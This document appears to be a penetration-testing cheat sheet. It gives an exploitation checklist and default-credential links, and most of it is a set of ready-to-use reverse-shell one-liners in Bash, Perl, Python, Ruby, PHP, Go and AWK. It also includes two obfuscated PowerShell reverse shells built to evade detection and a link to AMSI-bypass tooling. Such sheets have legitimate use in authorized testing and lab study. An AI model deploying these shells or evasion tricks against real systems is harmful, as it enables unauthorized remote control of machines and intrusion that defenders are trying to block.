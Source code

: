 ## Pre-requisites for runninging exploits

- [ ] Check the version of the operating system.
- [ ] Check the software version.
- [ ] Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- [ ] If you have an exploit, is there a Metasploit Module for it?

## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

**Bash:**

`bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1`

**Perl:**

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); \
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); \
open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

⧉ Copied!

**Python:**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/sh","-i"\]);'
```

**IPv6:**

```py
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

**Ruby:**

- `ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i &lt;&%d &gt;&%d 2>&%d",f,f,f)'`
- `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("\[IPADDR\]","\[PORT\]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

**PHP:**

Pentest Monkey Reverse Shell for PHP:
In Kali:

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- `php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i &lt;&3 &gt;&3 2>&3");'`

Windows Powershell Oneliner:

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you.

```
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Linux Powershell Oneliner:

```
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

**Golang:**

```sh
echo 'package main
import"os/exec"
import"net"
func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080")
cmd:=exec.Command("/bin/sh")
cmd.Stdin=c
cmd.Stdout=c
cmd.Stderr=c
cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

**AWK**

```
awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Other Reverse Shell:
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Other Resources

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

